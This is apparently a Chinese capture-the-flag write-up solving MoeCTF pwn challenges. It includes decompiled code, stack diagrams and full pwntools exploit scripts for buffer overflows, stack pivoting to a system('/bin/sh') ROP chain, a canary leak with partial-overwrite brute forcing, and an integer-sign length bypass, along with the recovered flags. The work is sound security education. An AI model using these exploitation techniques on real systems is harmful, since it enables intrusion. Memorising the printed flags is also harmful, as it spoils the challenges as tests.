[DEBUG] Received 0x2c bytes:
    b'bin\n'
    b'flag\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
    b'libexec\n'
    b'libx32\n'
    b'pwn\n'
bin
flag
lib
lib32
lib64
libexec
libx32
pwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2b bytes:
    b'moectf{d0nT-ENC@PSUI@t3-My_5YscALl5a0ce49}\n'
moectf{d0nT-ENC@PSUI@t3-My_5YscALl5a0ce49}
$ exit
[DEBUG] Sent 0x5 bytes:
    b'exit\n'
$
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 9542
```

## xdulaker

> [!NOTE]
> **FLAG:** `moectf{6E-CAREfuL-0F-ThE-l@K31e12e3e16}`，后面可能是随机的。

闹挺大的，全西电都传疯了。从来没想过在 MoeCTF 中还能见到西电湖人🤣🤣打开 IDA Pro 进行一个欣赏：

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
    init();
    menu();
    while (1)
    {
        while (1)
        {
            putchar(62);
            __isoc99_scanf("%d", &opt);
            if (opt != 1)
                break;
            pull();
        }
        if (opt == 2)
        {
            photo();
        }
        else
        {
            if (opt != 3)
                exit(0);
            laker();
        }
    }
}
```

```c
int menu()
{
    puts("A freshman has walked into the lake.");
    puts("1.Pull him out");
    puts("2.Take a photo of him");
    puts("3.Walk into the lake.");
    return puts("Your choice");
}
```

先看 `laker()`。

```c
ssize_t laker()
{
    _BYTE s1[48]; // [rsp+0h] [rbp-30h] BYREF

    if (memcmp(s1, "xdulaker", 8uLL))
    {
        puts("You are not him.");
        exit(0);
    }
    puts("welcome,xdulaker");
    return read(0, s1, 0x100uLL);
}
```

看到最后那个 `read(0, s1, 0x100uLL)` 应该就能直接意识到了：这是一个极佳的、无与伦比的、令人赞不绝口的栈溢出的机会！整整能往 `s1` 写入至多 256 字节的数据，我们应当、且一定需要利用这个极佳的机会。不过，写入的条件是能够通过 `memcmp` 的检查，这倒是让我们犯了难……进入 `laker()` 后，并没有一个显式的方法能让我们直接操作 `s1` 的值🤔但注意到题目提示

> 栈上的数据不会无缘无故地被清理

我们先前在 EZtext 中说过，

> 当然，这里的「直接抛弃」并不是给这段栈里全部填充 `0`，而是通过改变 `rsp` 的值，直接忽略掉了这片内存区域。

是的！注意到，`photo()` 和 `laker()` 函数都是由 `main()` 调起的，它们的栈结构固然大同小异；但更重要的是，我们在调用 `photo()` 后直接调用 `laker()` 时，`photo()` 的栈帧不会被写 `0`，即倘若没有干扰因素影响这片内存区域的话，`s1` 标记的内存区域，一定会残留 `photo()` 写入的遗迹！这样，攻击链便清晰了：我们先使用 `photo()` 向未来的 `s1` 区域写入 `xdulaker`，然后再调用 `laker()` 来读取！

但，向 `photo()` 写入多少合适呢？追踪 `photo()`：

```c
int photo()
{
    _BYTE buf[80]; // [rsp+0h] [rbp-50h] BYREF

    puts("Hey,what's your name?!");
    read(0, buf, 0x40uLL);
    return puts("I will teach you a lesson.");
}
```

注意到注释中已经给出了 `buf` 的相对位置，再参考上面 `s1` 的相对位置，我们可以画出栈结构：

```plain
** High Address **

         `photo`                     `laker`
 -----------------------     -----------------------
| `main` return address |   | `main` return address |
 -----------------------     -----------------------
|      saved `rbp`      |   |      saved `rbp`      |
 -----------------------     -----------------------
|                       |   |                       |
|                       |   |          `s1`         |
|         `buf`         |   |                       |
|                       |    -----------------------
|                       |
 -----------------------

** Low Address **
```

程序写入数据时，统一由低地址向高地址写入。因此，我们需要在 `buf` 中先写入适当的 PADDING，再写入 `xdulaker`。这一段 PADDING 的距离即 `0x50 - 0x30 = 0x20 = 32` 字节。构造半个 Python 脚本如下：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
io = connect("127.0.0.1", 6280)

PAYLOAD_1 = b"DRYICE" * 5 + b"LY" + b"xdulaker"

io.sendlineafter(b">", b"2")
io.send(PAYLOAD_1)
io.sendlineafter(b">", b"3")
io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/xdulaker]
└─$ python ./1.py
[+] Opening connection to 127.0.0.1 on port 6280: Done
[DEBUG] Received 0x6d bytes:
    b'A freshman has walked into the lake.\n'
    b'1.Pull him out\n'
    b'2.Take a photo of him\n'
    b'3.Walk into the lake.\n'
    b'Your choice\n'
    b'>'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x28 bytes:
    b'DRYICEDRYICEDRYICEDRYICEDRYICELYxdulaker'
[DEBUG] Received 0x17 bytes:
    b"Hey,what's your name?!\n"
[DEBUG] Received 0x1a bytes:
    b'I will teach you a lesson.'
[DEBUG] Received 0x2 bytes:
    b'\n'
    b'>'
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[*] Switching to interactive mode
[DEBUG] Received 0x10 bytes:
    b'welcome,xdulaker'
welcome,xdulaker[DEBUG] Received 0x1 bytes:
    b'\n'
```

看来这条路行得通——现在只需要对着 `s1` 爆破就行了：写 56 字节的 PADDING 后直接溢出 `backdoor()` 的返回地址即可。不过，返回地址这一块又有学问了。与 `ret2libc` 所面临的问题相同，我们在这里也需要计算出基地址。考虑到 `libc` 和动态链接库文件已经存在，且 `opt` 的内存地址也已经给定，我们可以用 `opt` 的相对地址和内存地址计算出基地址，然后算出 `backdoor()` 的内存地址！我们使用 `objdump` 来达成这一点：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/xdulaker]
└─$ objdump -t pwn | grep opt
0000000000004010 g     O .data  0000000000000004              opt

┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/xdulaker]
└─$ objdump -d pwn | grep backdoor
0000000000001249 <backdoor>:
```

我们有

$$
\mathtt{real\_opt} - \mathtt{opt} = \mathtt{real\_backdoor} - \mathtt{backdoor}
$$

移项，得

$$
\mathtt{real\_backdoor} = \mathtt{real\_opt} - \mathtt{opt} + \mathtt{backdoor}
$$

同理可计算出 $\mathtt{real\_ret\_addr}$，这里不再赘述。编写 Python 脚本。这里就不让 Pwntools 自动获取地址了，我们手动化操作一波：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
io = connect("127.0.0.1", 6280)

OPT = 0x4010
BACKDOOR = 0x1249

PAYLOAD_1 = b"DRYICE" * 5 + b"LY" + b"xdulaker"

# 计算 `real_backdoor` 地址
io.sendlineafter(b">", b"1")
io.recvuntil(b"Thanks,I'll give you a gift:")
REAL_OPT = int(io.recvline().strip(), 16)
REAL_BACKDOOR = REAL_OPT - OPT + BACKDOOR
print("计算得到 `backdoor()` 在内存中的实际地址为 " + str(hex(REAL_BACKDOOR)))

# 写入 `xdulaker` 到 `s1`
io.sendlineafter(b">", b"2")
io.send(PAYLOAD_1)
io.sendlineafter(b">", b"3")
io.recvuntil('welcome,xdulaker')

# 写入返回地址
RET_ADDR = 0x101a
REAL_RET_ADDR = REAL_OPT - OPT + RET_ADDR
PAYLOAD_2 = b"DRYICE" * 9 + b"LY" + p64(REAL_RET_ADDR) + p64(REAL_BACKDOOR)
io.send(PAYLOAD_2)

# 进入 `interactive` 模式
io.interactive()
```

大沙币零音被这道题卡了十几天，今天上线 debug 半天发现忘记给 `ret_addr` 换成 `real_ret_addr` 了😇😇😇这辈子真是被 CTF 给毁了你们知道吗。

## easylibc

> [!NOTE]
> **FLAG:** `moectf{???}`

反编译题目给定的 `pwn` 文件：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    setbuf(_bss_start, 0LL);
    printf("What is this?\nHow can I use %p without a backdoor? Damn!\n", &read);
    vuln();
    puts("Something happening");
    return 0;
}
```

```c
ssize_t vuln()
{
    _BYTE buf[32]; // [rsp+0h] [rbp-20h] BYREF

    return read(0, buf, 0x60uLL);
}
```

可以看到 `printf` 打印出了 `read()` 的地址。那我们是否能像之前那样，直接用 `read()` 和偏移量算出 `system` 的地址呢？遗憾地，这一次 `&read` 指向的，是 PLT 中 `read()` 函数的地址。在「认识 libc」题目中，我们曾经使用 `printf()` 自指以获得其自身的真实内存地址，那是因为 `printf()` 本身被触发的时候，就已经触发了 PLT 向 GOT 写入真实内存地址的请求，因此我们得到的是 `printf` 在内存中的真实地址（已经写入 GOT 了）。但这一次，`read` 函数仍然 **没有** 被调用过，因此使用 `&read` 得到的并非其真实内存地址，而是指向 PLT 中 `read()` 的地址。

## ezpivot

> [!NOTE]
> **FLAG:** `moectf{}`

既然题目已经反复提示了「栈迁移」，那我们就直接开始运用。首先，仍然使用 IDA Pro 对 `pwn` 进行分析，看看 `main`：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int n32; // [rsp+0h] [rbp-10h] BYREF
    _BYTE buf[12]; // [rsp+4h] [rbp-Ch] BYREF

    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);
    puts("Welcome to join this pwn party!");
    puts("Please say something to introduce yourself:");
    puts("Before that,you need to tell us the length of your introduction.");
    __isoc99_scanf("%d", &n32);
    if ( n32 > 32 )
    {
        puts("Your introduction is too long, please try again.");
        exit(1);
    }
    introduce((unsigned int)n32);
    puts("Now, please tell us your phone number:");
    read(0, buf, len_of_phonenum);
    return 0;
}
```

设置缓冲区后，程序读取一个整数并存储到 `n32` 中，紧接着程序检测 `n32` 是否大于 `32`，若大于则直接退出，若小于，则继续跳转到 `introduce` 函数。我们继续跟踪 `introduce` 函数：

```c
int __fastcall introduce(unsigned int nbytes)
{
    read(0, &desc, nbytes);
    return puts("Ok,we got your introduction!");
}
```

程序从标准输入中读取 `n32` 个字节并写入到 `desc` 中。追踪得到 `desc` 是位于 bss segment 上的，这很好：因为，跳转回 `main` 后，我们有

```c
read(0, buf, len_of_phonenum);
```

这里的 `len_of_phonenum` 的值仅为 28，完全不够我们复杂的栈布局所需。基于此，我们可以使用栈迁移技术，将攻击栈迁移到 bss segment 上，然后让程序跳转到 bss segment 上继续按照栈的指示执行脚本！32 个字节虽说不富裕，但也足够我们进行一次 ROP 了。正因如此，我们说栈迁移的核心思想即：将栈指针 `rsp` 指向一个我们能够控制的、空间足够大的内存区域，然后在这块新栈上布置 ROP 链来执行任意代码。😎

栈迁移通常利用 `leave ; ret` 来完成。我们先前便知道，`leave` 等价于

```asm
mov rsp, rbp
pop rbp
```

`rsp` 归位后，栈上的 `saved RBP` 会被弹出以应用给 `rbp` 寄存器。随后发生 `ret`，弹出栈上的 `return addr` 给 `rip`，使得 CPU 跳转到那里去执行，同时 `rsp` 上移 8 字节。栈的下一步操作是由 `rsp` 决定的，所以栈迁移的核心就是转移 `rsp` 的位置。

那么问题来了：如何让 `rsp` 迁址呢？我们首先考虑第 3 次输入：这次输入至多 28 个字节后，除去必须的 12 个字节的 PADDING，还有 16 个字节供我们部署 `rsp` 迁址的战略。在第 3 次输入结束后，`main` 会进行一次 `return 0;`，这就包含 `leave ; ret`；我们可以在这 16 个字节中构造并写入这样的 payload：

```plain
`desc` addr    +    `leave ; ret` addr
 (8 bytes)              (8 bytes)
```

其中前 8 个字节用来覆写 `saved RBP`，但为什么我们指定前 8 个字节为 `desc` 的地址呢？不妨继续向后看：后面还有一个 `leave ; ret`！

在 `main` 的 `return 0;` 中，`rsp` 贴靠 `rbp` 后，程序将 `desc` 的地址作为 `saved RBP` 被赋值给了 `rbp`，随后 `leave ; ret` 的地址被赋值给了 `rip`。因此，程序便如此再进行一次对应地址的 `leave ; ret`，但这一次，`rsp` 贴靠 `rbp`，`rbp` 的值，正是 `desc` 的地址！随后 `rsp` 上侧的一个神秘的 8 字节数据被赋给 `rbp`。总之，无论如何——我们已经达成了 `rsp` 迁址的目标！

紧接着进行一次 `ret`，从 `rsp` 上侧弹出一个地址并跳转到那里去执行。既然 `rsp` 已经位于 `desc`，我们就可以在 `desc` 中规划程序的下一步了。

下面，我们考虑第 2 次输入：这一次输入将直接影响 bss segment 上 `desc` 的内容，务必慎重考虑。我们的目标仍然是 get shell，所以星澜音还是打算使用 `system("/bin/sh")` 的方法：将 `"/bin/sh"` 推入 `rdi` 寄存器，随后调用 `system` 函数。

考虑到第 2 次输入也只容许 32 字节的数据🤔`desc` 的开头 8 个字节会赋值给 `rbp`，或许我们可以随便写 8 个字节？而后写一个 `pop rdi ; ret` 的地址，再写一个 `"/bin/sh"` 字符串的地址，最后写一个 `system` 函数的地址。完美——查找一下 `"/bin/sh"` 的地址😋：

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF/Pwn/ezpivot]
└─$ ROPgadget --binary ./pwn --string "/bin/sh"
Strings information
============================================================
```

？？？不是吧，又来？程序中没有一个 `"/bin/sh"` 字符串，无敌了，看来我们得想办法把 `"/bin/sh"` 字符串塞到这 32 个字节里，可是塞到哪里呢🤔对的，我们可以使用刚开始被我们乱写的那 8 个字节！倘若我们把 `"/bin/sh"` 赋给 `desc` 开头的 8 个字节，然后把 `"/bin/sh"` 的地址指向 `desc` 开头，这样不就有 `"/bin/sh"` 了吗？虽然说这个字符串会被赋值给 `rbp`，不过我们这里并不需要 `rbp`。

构造 Python 脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'

elf = ELF('./pwn')

# 1. 寻找 "leave; ret" gadget
# Pwntools 的 ROP 工具可以自动搜索指令序列
rop = ROP(elf)
leave_ret = rop.find_gadget(['leave', 'ret']).address
log.info(f'Found "leave; ret" gadget at: {hex(leave_ret)}')

# 2. 寻找 "pop rdi; ret" gadget
# 这个 gadget 用来将栈上的值弹到 rdi 寄存器，从而控制函数参数
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret']).address
log.info(f'Found "pop rdi; ret" gadget at: {hex(pop_rdi_ret)}')

# 3. 获取 desc 变量的地址
# 这是我们将要迁移到的新栈地址，也是我们写入 ROP 链的地方
desc_addr = elf.sym['desc']
log.info(f'Address of .bss variable "desc": {hex(desc_addr)}')

# 4. 获取 system 函数的地址
system_addr = elf.plt['system']
log.info(f'Found system@plt at: {hex(system_addr)}')

# Payload 1: 写入 desc 的 ROP 链 (总长度 32 字节)
# 我们将 "/bin/sh" 字符串也放在这个 payload 的末尾
# 这样，字符串的地址就是 desc_addr + 24
bin_sh_addr = desc_addr

payload1 = b''
payload1 += b'/bin/sh\x00'       # 8 字节: 字符串本身，用 \x00 补齐
payload1 += p64(pop_rdi_ret)      # 8 字节: ROP 链的第一步，准备设置参数
payload1 += p64(bin_sh_addr)      # 8 字节: system 的参数，即 "/bin/sh" 的地址
payload1 += p64(system_addr)      # 8 字节: 调用 system 函数

# 确保 payload1 长度正好是 32
assert len(payload1) == 32

# Payload 2: 触发栈溢出和栈迁移的 payload (总长度 28 字节)
# 布局: [填充] + [新的 RBP] + [新的返回地址]
payload2 = b''
payload2 += b'A' * 12             # 12 字节: 填充 buf 变量
payload2 += p64(desc_addr)        # 8 字节: 覆盖 RBP 为 desc 的地址，这是栈迁移的关键！
payload2 += p64(leave_ret)        # 8 字节: 覆盖返回地址为 leave;ret gadget，执行栈迁移！

# 确保 payload2 长度正好是 28
assert len(payload2) == 28

# 启动进程或连接到远程服务器
# p = process('./pwn')  # 本地调试
# gdb.attach(p)
p = remote('127.0.0.1', 12649) # 远程攻击, 请替换地址和端口

# 1. 发送自我介绍的长度
p.sendlineafter(b'length of your introduction.', b'32')

# 2. 发送 Payload 1 (ROP 链)，写入到 desc
p.send(payload1)

# 3. 发送 Payload 2 (溢出)，触发栈迁移
p.sendafter(b'your phone number:', payload2)

# --- 获取 Shell ---
# 此时，程序流程已被劫持，ROP 链执行完毕，我们应该得到了一个 shell
log.success("Payload sent! Switching to interactive mode.")
p.interactive()
```

运行——沃日了，为啥还是 EOF，我晕了😰😰Gemini 说是 16 字节栈对齐的问题，实际上我们用 `pwndbg` 跟一下会发现确实是 16 字节栈对齐的问题，但我寻思着这 `payload` 也没地方再插入一个 `ret` 了啊😭

就此陷入囧途，看来我们被迫换一条路了。32 个字节太难施展拳脚，要是能突破这 32 字节的界限就好了……等等，仔细看看…？

```c
unsigned int nbytes; // [rsp+0h] [rbp-10h] BYREF

...

__isoc99_scanf("%d", &nbytes);
if ( (int)nbytes > 32 )
{
    puts("Your introduction is too long, please try again.");
    exit(1);
}
```

`32`…`unsigned int`…🤔`-1`！😨

我们考虑，如果我们输入 `-1`，由于 `nbytes` 被声明为 `unsigned int`，而 `scanf` 使用 `%d`（有符号整数格式），因此 `-1` 会被转换为无符号整数——在 64 位系统上，就是 `UINT_MAX`，即 `4294967295`。

但，程序检查 `(int)nbytes > 32` 的时候，`nbytes` 又因为超出了 `int` 的正数范围（通常 `INT_MAX` 为 `2147483647`），boom，转换回来又成 `-1` 了，显然 `-1 > 32` 为假，所以程序就跳到 `introduce()` 了😱😱

这下舒服了😋`32` 从来不是也不应该成为我们的界限，我们一个负数就能绕过了！修改 `exploit.py`：

```diff
payload1 = b''
payload1 += b'/bin/sh\x00'
payload1 += p64(pop_rdi_ret)
payload1 += p64(bin_sh_addr)
+ payload1 += p64(leave_ret)
payload1 += p64(system_addr)

- new_stack_pivot = desc_addr
+ new_stack_pivot = desc_addr + 0x8

- assert len(payload1) == 32

- payload2 += p64(desc_addr)
+ payload2 += p64(new_stack_pivot)

- p.sendlineafter(b'length of your introduction.', b'32')
+ p.sendlineafter(b'length of your introduction.', b'-1')
```

继续跑：沃日，咋还是 EOF？😣😣😤😤😖😖😢😢诡异了。动态调试一下发现确实进入 `system()` 里了，结果在 `system()` 里突然爆炸了🤔突然发现题目给了提示：

> 为什么 `system` 会崩呢？注意迁移后预留足够的栈空间，`system` 需要很大的栈空间，以及你要注意一下你的 `rbp`。

嗯~这下看懂了。我们用 `pwndbg` 跟踪一下看看，进入 `system()` 后，跳转到 `do_system`，在 `do_system+40` 发生了意外：

```plain
Program received signal SIGSEGV, Segmentation fault.
do_system (line=0x404060 <desc> "") at ../sysdeps/posix/system.c:103
103     in ../sysdeps/posix/system.c
```

在 `DISASM` 视图中，我们看到了程序尝试执行的指令：

```plain
► 0x7d937db3dcb8 <do_system+40>    mov    dword ptr [rsp + 8], 0xffffffff           [0x403cf0] <= 0xffffffff
```

它在尝试将数据写到 `0x403cf0` 处。但如果我们试一下 `vmmap`，就会立刻发现问题：

```plain
0x403000           0x404000 r--p     1000    2000 pwn
```

这块区域不可写（没有 `w`）！也就是说，由于 `system()` 一直尝试下探（🥵换句话说给人 `.bss` 段的下面乱摸🥵），探到 GOT 就算了，竟然探到了只读的内存区域（幻肢😰），这下必然爆炸了。不过我们在 IDA Pro 中看到，出题人贴心地为我们在高内存区域留了一堆空白区域😋这就好说了，直接上移 `0x700` 个字节，这下不怕了。

```diff
- new_stack_pivot = desc_addr + 0x8
+ new_stack_pivot = desc_addr + 0x700

+ payload1 = payload1.ljust(0x700, b'\0')
```

能跑，拿 `flag`，结束。

## ezprotection

> [!NOTE]
> **FLAG:** `moectf{Just-SoME-eAsY_pr0T3ct1ON87a0ccb2}`，后面可能是随机的。
<!---->
> [!TIP]
> Canary 的意思是金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

我们说，通常情况下栈溢出均是溢出栈上的局部变量，从而让多出来的数据覆盖到返回地址等，从而达到劫持控制流的目的。但加入 Canary 保护后，栈会在局部变量的上面、`saved RBP` 的下面插入一个 Canary，当函数返回时（栈帧销毁前）会先验证 Canary 是否与之前一致，若不一致则停止运行。若我们仍然采用原初的溢出手段，PADDING 会直接覆盖掉 Canary，导致我们无法通过验证。

不过 Canary 保护并非坚不可摧😎对于 x86-64 架构，Canary 的第一个字节（最低位字节）总是 `\x00`，所以我们只需要得到后 7 个字节，就可以完美重构 Canary 了。

用 IDA Pro 逆向题目给定的 `pwn`：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    setup(argc, argv, envp);
    vuln();
    return 0;
}
```

看看 `setup`：

```c
int setup()
{
    int fd_1; // eax
    int fd; // [rsp+Ch] [rbp-4h]

    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);
    fd_1 = open("/dev/urandom", 0);
    fd = fd_1;
    if ( fd_1 != -1 )
    {
        read(fd_1, &password, 8uLL);
        return close(fd);
    }
    return fd_1;
}
```

~~不是🧐我寻思这个 `password` 从前到后也没用到啊~~ 总之还是先看 `vuln` 吧：

```c
unsigned __int64 vuln()
{
    char buf[24]; // [rsp+0h] [rbp-20h] BYREF
    unsigned __int64 v2; // [rsp+18h] [rbp-8h]

    v2 = __readfsqword(0x28u);
    puts(aThisTimeIWon);
    puts("Here is a beautiful canary, and it will be watching over you.");
    read(0, buf, 0x2AuLL);
    puts("Go ahead and overflow, anyway I have a canary.");
    puts(buf);
    puts("I will give you a second chance, since you can not do anything anyway.");
    puts(aEvenIfYouKillT);
    read(0, buf, 0x2AuLL);
    return v2 - __readfsqword(0x28u);
}
```

这里，`read` 函数读取至多 42 个字节的数据并写入 `buf` 中。根据栈结构，`buf` 具有 24 字节，故程序可以直接溢出到 Canary 的值。后面程序用 `puts` 打印了 `buf` 的值，而我们知道 `puts` 遇到 `\x00` 时会停下，但 Canary 的第一个字节就是 `\x00`，这显然直接卡断了我们对 Canary 的读取。

等等…既然 Canary 的第一个字节是 `\x00`，那我们不让它成为 `\x00` 不就好了？倘若我们构造 `buf` 的值，让它刚好将 Canary 的第一个字节写掉，那后面 `puts` 不就能打印整个 Canary 了吗？😎

紧接着，`puts` 打印了连贯的 `buf`，包括前面的 PADDING、第一位被修改的 Canary、`saved RBP` 还有返回地址（的低 2 位，考虑到小端序）。这是极好的——我们可以就此推算出完整的 Canary，以及 `backdoor()` 的地址。但后续的第二次 `read` 却让我们犯了难：它至多也只能写入返回地址的低 2 位……怎么才能把 `backdoor()` 写进去呢？🤔

别急，如果我们在 IDA Pro 中查看函数地址：

```plain
`main`     -> 0x147E
`backdoor` -> 0x1229
```

会发现：这两个地址均只有低 2 位字节！这就好说了，`vuln` 本来是要跳转到 `main` 的，这已经保证了它的高 6 位字节绝对干净；故我们只需要覆写低 2 位即可！跳转到 `backdoor` 里，万事大吉……啊？

```c
void __noreturn backdoor()
{
    _QWORD buf[2]; // [rsp+0h] [rbp-10h] BYREF

    buf[1] = __readfsqword(0x28u);
    puts("Give me the password!");
    read(0, buf, 8uLL);
    if ( buf[0] == password )
    {
        puts("You find the secret:");
        fd = open("/flag", 0);
        if ( fd == -1 )
        {
            puts("Failed to open flag file.");
            exit(1);
        }
        read(fd, &flag, 0x64uLL);
        write(1, &flag, 0x64uLL);
        close(fd);
    }
    exit(0);
}
```

666 原来那个密码是在这里用的 😡 看来我们要改变策略，既然我们不知道也不想知道密码，我们直接跳转到 `if ( buf[0] == password )` 块判断成功的地方！哈哈哈，道高一尺，魔高一丈。

> [!NOTE]
> 从 `if` 块跳转开始（排版有优化）：
>
> ```asm
> .text:000000000000127D    lea     rax, aYouFindTheSecr ; "You find the secret:"
> .text:0000000000001284    mov     rdi, rax        ; s
> .text:0000000000001287    call    _puts
> .text:000000000000128C    mov     esi, 0          ; oflag
> .text:0000000000001291    lea     rax, file       ; "/flag"
> .text:0000000000001298    mov     rdi, rax        ; file
> .text:000000000000129B    mov     eax, 0
> .text:00000000000012A0    call    _open
> .text:00000000000012A5    mov     cs:fd, eax
> .text:00000000000012AB    mov     eax, cs:fd
> .text:00000000000012B1    cmp     eax, 0FFFFFFFFh
> .text:00000000000012B4    jnz     short loc_12CF
> .text:00000000000012B6    lea     rax, aFailedToOpenFl ; "Failed to open flag file."
> .text:00000000000012BD    mov     rdi, rax        ; s
> .text:00000000000012C0    call    _puts
> .text:00000000000012C5    mov     edi, 1          ; status
> .text:00000000000012CA    call    _exit
> ```
>
> 星澜音尝试将地址指向 `0x127D`，但程序即刻寸止，极为诡异。
>
> 
>
> 将地址指向 `0x128C` 即可解决。👊

不过虽说写入低 2 位字节，可这 4 个十六进制位，由于 PIE 的特性，绝对地址的后三位是和相对地址一样的。倒数第四位由 PIE 确定，而星澜音也未能成功让第一次 `read()` 从栈上将 `return addr` 泄露出来，这更为诡异。但道高一尺魔高 114,514 丈，考虑到 boom(_revenge) 带给我们的经验，星澜音干脆将第 4 个十六进制位设为 `1`，以 $\dfrac{1}{16}$ 的概率努力爆破即可。最终在尝试 26 次后成功。下面给出一个 `exploit.py`，由于星澜音精神不振，该 `exploit.py` 由 Gemini 代笔。

```python
#!/usr/bin/env python3
from pwn import *

# 设置 pwntools 上下文
context.arch = 'amd64'
# context.log_level = 'debug' # 调试时开启

# --- 连接目标 ---
# p = process('./pwn')
p = remote('127.0.0.1', 7290)

# --- 第 1 步：可靠地泄露 Canary ---

# 构造 payload 1，仅用于泄露 Canary。
# 发送25字节可以覆盖 buf(24) 和 canary 的第一个 \x00 字节。
payload1 = b'A' * 25

log.info("发送 payload 1 以可靠地泄露 Canary...")
p.sendafter(b"watching over you.\n", payload1)

# `puts` 会回显我们的 payload，后面紧跟着 Canary 的高7位。
# 我们先接收到回显的 payload 部分，确保接收指针正确。
p.recvuntil(payload1)

# 然后精确地接收剩下的 7 个字节，这就是 Canary 的部分。
try:
    canary_rest = p.recvn(7)
    canary = u64(b'\x00' + canary_rest)
    log.success(f"成功泄露 Canary: {hex(canary)}")
except EOFError:
    log.error("接收 Canary 失败。程序可能已崩溃或输出不符合预期。")
    p.close()
    exit()


# --- 第 2 步：构造最终 Payload 进行部分地址覆盖 ---

# 目标地址的偏移量是 0x127D。我们只需要它的低2个字节。
target_low_bytes = 0x128C

# 构造 payload 2: 填充buf + 正确的Canary + 填充rbp + 目标地址的低2字节
payload2 = b'A' * 24
payload2 += p64(canary)
payload2 += b'B' * 8  # 覆盖 RBP，内容无所谓
payload2 += p16(target_low_bytes) # 使用 p16 精确覆盖返回地址的低2字节

log.info("发送最终 payload 以劫持控制流...")
# 在第二次提示后发送。用 sendline 因为 read 需要换行符。
p.sendlineafter(b"anyway.\n", payload2)


# --- 第 3 步：获取 Flag ---
log.success("Payload 已发送！切换到交互模式以获取 flag...")
time.sleep(0.1)

p.interactive()
```

## fmt_S

moectf{@DVANceD_leVEl_fMTcd5de62b61}

用 IDA Pro 逆向程序。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int i; // [rsp+Ch] [rbp-4h]

    init(argc, argv, envp);
    puts("You're walking down the road when a monster appear.");
    for ( i = 1; i <= 3 && !flag; ++i )
        talk();
    if ( (unsigned __int64)atk <= 0x1BF52 )
        puts("You've been eaten by the monster.");
    else
        he();
    return 0;
}
```

`main` 函数打印了一句话

> You're walking down the road when a monster appear.

随后使用循环至多 3 次地、仅在 `flag` 为假（可能是初始值为 `0`）时调用 `talk`。结束循环后，若 `atk` 的值小于等于 `0x1BF52`（即 `114514`）则打印

> You've been eaten by the monster.

~~呜呜呜被吃惹~~ 若大于，则跳转到 `he()` 函数：

```c
unsigned __int64 he()
{
    char command[6]; // [rsp+2h] [rbp-Eh] BYREF
    unsigned __int64 v2; // [rsp+8h] [rbp-8h]

    v2 = __readfsqword(0x28u);
    qmemcpy(command, "a_flag", sizeof(command));
    puts("The monster is defeated, and you obtain: flag?");
    system(command);
    return v2 - __readfsqword(0x28u);
}
```

这里，`he()` 声明了一个 6 字节的数组 `command`，并使用 `qmemcpy` 将 `"a_flag"`（6 字节）复制进 `command`（无 `null` 终止符地），随后打印

> The monster is defeated, and you obtain: flag?

紧接着调用 `system(command)`。这是极为诡异的；我们不妨再看看 `talk()`：

```c
__int64 talk()
{
    puts("You start talking to him...");
    flag ^= 1u;
    read(0, fmt, 0x20uLL);
    printf(fmt);
    puts("?");
    puts("You enraged the monster-prepare for battle!");
    return my_read(&atk, 8LL);
}
```

该函数打印

> You start talking to him...

之后，取 `flag` 与 `1u` 的异或并存入 `flag`，从标准输入读取至多 `0x20` 字节（即 `32` 字节）到全局缓冲区 `fmt`，随后用 `printf` 打印出 `fmt` 的内容。紧接着，再打印

> ?<br/>
> You enraged the monster-prepare for battle!

后，调用 `my_read` 函数。跟踪 `my_read`：

```c
size_t __fastcall my_read(_BYTE *buf, size_t nbytes)
{
    buf[read(0, buf, nbytes)] = 0;
    return strlen(buf);
}
```

`my_read` 函数从标准输入读取 `nbytes`（也就是 `8`）个字节到缓冲区 `buf`（也就是 `atk`，它位于 bss segment，仅占 `8` 字节，后面是 `flag`）后，将其第 9 个字节写为了……`0`？初见端倪：有可能 `flag` 的第 1 个字节，就因此被水灵灵毁掉了。

题目提示：

> fmt竟离开了栈，我能依赖的，也许只有栈上现有的指针了？

这倒确实：那个 `read(0, fmt, 0x20uLL);` 的 32 字节看起来无比诱人，但很可惜它不在栈上，而是在 bss segment 里😡况且这 `flag` 在 `talk` 里就从 `0` 变为 `1` 了，看起来这循环似乎只能运行 1 次啊……

首先，我们不能乱了阵脚。我们明确：我们的最终目标仍然是用 `system("/bin/sh")` 来获取一个 `shell()`。或许我们可能会注意到 `he()` 中的 `system("a_flag")`，这似乎为我们提供了一个可用的 `system` 函数；但问题是，`system("a_flag")` 这东西不仅咋看咋诡异，而且，覆写 `command` 似乎也略显复杂……

注意到题目还给了 `libc.so.6` 和 `ld-linux-x86-64.so.2`🤔我们自然地想到了上面的「认识 libc」😋不妨就用 `ret2libc` 拿到 `system()` 吧 ~~至少心里不会太膈应~~

